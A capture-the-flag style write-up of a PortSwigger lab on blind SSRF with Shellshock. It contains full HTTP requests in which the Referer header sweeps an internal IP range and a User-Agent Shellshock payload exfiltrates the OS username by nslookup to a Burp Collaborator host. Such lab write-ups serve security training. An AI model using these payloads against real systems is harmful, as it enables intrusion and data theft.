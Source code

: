 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/de66cc9e-60fc-4114-acf1-88bacbaee217)


## Overview :

Simply identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. 

However, it can still be **leveraged to probe for other vulnerabilities on the server itself or on other back-end systems**. You can blindly **sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities**. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server. 

## Solution :

To solve this lab we need to identify some key information,

- IPs of the internal server `192.168.0.X` running on port **8080** which is vulnerable to shellshock.
- To **exfiltrate the name of the OS user**.

> NOTE - `Referrer-Header` is vulnerable to SSRF.


### Steps -

Clicking on `View Details` of a product, loads the product page wherein the request contains the **Referrer header** which is vulnerable to SSRF.

```http
GET /product?productId=13 HTTP/2
Host: 0ab8003403ef88e280f0265700a4001b.web-security-academy.net
Cookie: session=gaaUVU6ky6kq0RbjJkmRgSmPUITyIzSP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ab8003403ef88e280f0265700a4001b.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

In the `Referrer` header enter the shellshock payload to view the username of the OS user.

```bash
() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net;
```

In the `User-Agent` header, enter the IP of the internal network ie. `192.168.0.x` along with the port `8080`.

> where x - is the last octet which has to be bruteforced from **2-255 **

```http
GET /product?productId=13 HTTP/2
Host: 0ab8003403ef88e280f0265700a4001b.web-security-academy.net
Cookie: session=gaaUVU6ky6kq0RbjJkmRgSmPUITyIzSP
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).wee706d9a9nyr5tsejl120a8ozuqif.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.x:8080
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Send the request to intruder, bruteforce thelast octet of the ip from 0-255. If any of the machines in the internal network is not patched and vulnerable to SSRF, then the exploit will be triggered & we will get the user-name of the OS user.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70d06938-9135-4b22-9563-2d7ebc3a3231)

Start the attack.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5fbf5d68-b353-4fcc-a59a-819143cc8fce)

Once the attack is finished, we see some **DNS queries** made to our burp collaborator server & it contains the result of our $(whoami) command.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ddbcdb4d-c728-4ca3-8041-77942f29086b)

> Username - `peter-zsamwy`

Submit the username to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4b946231-a798-4625-95de-0dab54d6e82d)














